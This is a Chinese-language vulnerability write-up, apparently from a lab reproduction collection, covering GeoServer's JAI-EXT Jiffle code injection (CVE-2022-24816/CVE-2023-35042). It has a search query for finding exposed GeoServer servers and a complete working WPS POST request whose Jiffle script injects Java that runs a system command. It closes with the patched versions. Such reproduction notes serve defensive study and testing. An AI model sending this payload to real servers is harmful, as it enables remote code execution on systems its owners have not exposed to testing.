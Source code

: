 # GeoServer JAI-EXT 导致远程代码注入漏洞 CVE-2022-24816/CVE-2023-35042

## 漏洞描述

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

GeoServer 使用 JAI-EXT 提供的 Jiffle 地图代数语言，这让使用者可以高效地在大图像上执行地图查询。在 JAI-EXT 1.2.21 及更早版本中存在一个代码注入漏洞（CVE-2022-24816），该漏洞允许攻击者通过精心构造的 Jiffle 调用来执行远程代码。

在 GeoServer 中，这个漏洞也被称为 [CVE-2023-35042](https://osgeo-org.atlassian.net/browse/GEOS-10458)。GeoServer 2.20.4、2.19.6 和 2.18.6 及更高版本通过将 JAI-EXT 依赖项更新到 1.2.22 修复了这个问题。

参考链接：

- https://www.synacktiv.com/publications/exploiting-cve-2022-24816-a-code-injection-in-the-jt-jiffle-extension-of-geoserver
- https://github.com/geosolutions-it/jai-ext/security/advisories/GHSA-v92f-jx6p-73rx
- https://geoserver.org/vulnerability/2022/04/11/geoserver-2-jiffle-jndi-rce.html
- https://osgeo-org.atlassian.net/browse/GEOS-10458
- https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-24816.yaml

## 漏洞影响

```
GeoServer jal-ext <= 1.2.21
```

## 网络测绘

```
app="GeoServer"
```

## 环境搭建

Vulhub 执行如下命令启动一个 GeoServer 2.17.2 服务器：

```
docker compose up -d
```

服务启动后，你可以在 `http://your-ip:8080/geoserver` 查看到 GeoServer 的默认页面。

![](images/GeoServer%20JAI-EXT%20导致远程代码注入漏洞%20CVE-2022-24816%20CVE-2023-35042/image-20250207170607522.png)

## 漏洞复现

漏洞存在于 WMS 接口中。攻击者可以通过向 `/geoserver/wms` 发送特制的请求来执行任意 Java 代码。请求中需要包含一个恶意的 Jiffle 表达式，这个表达式将被服务器执行。

```
<wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
```

发送如下请求来复现漏洞：

```
POST /geoserver/wms/ HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: application/xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*
Content-Length: 44

<?xml version="1.0" encoding="UTF-8"?>
<wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
<ows:Identifier>ras:Jiffle</ows:Identifier>
<wps:DataInputs>
    <wps:Input>
    <ows:Identifier>coverage</ows:Identifier>
    <wps:Data>
        <wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999  316]]></wps:ComplexData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>script</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>outputType</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>DOUBLE</wps:LiteralData>
    </wps:Data>
    </wps:Input>
</wps:DataInputs>
<wps:ResponseForm>
    <wps:RawDataOutput mimeType="image/tiff">
    <ows:Identifier>result</ows:Identifier>
    </wps:RawDataOutput>
</wps:ResponseForm>
</wps:Execute>
```

这样，数据包中的 Jiffle 表达式中的 Java 代码将被服务器执行，执行结果将返回在 `java.lang.ExceptionInInitializerError` 消息中：

![](images/GeoServer%20JAI-EXT%20导致远程代码注入漏洞%20CVE-2022-24816%20CVE-2023-35042/image-20250207170955999.png)

## 漏洞修复

GeoServer 2.20.4、2.19.6 和 2.18.6 及更高版本通过将 JAI-EXT 依赖项更新到 1.2.22 修复该漏洞。
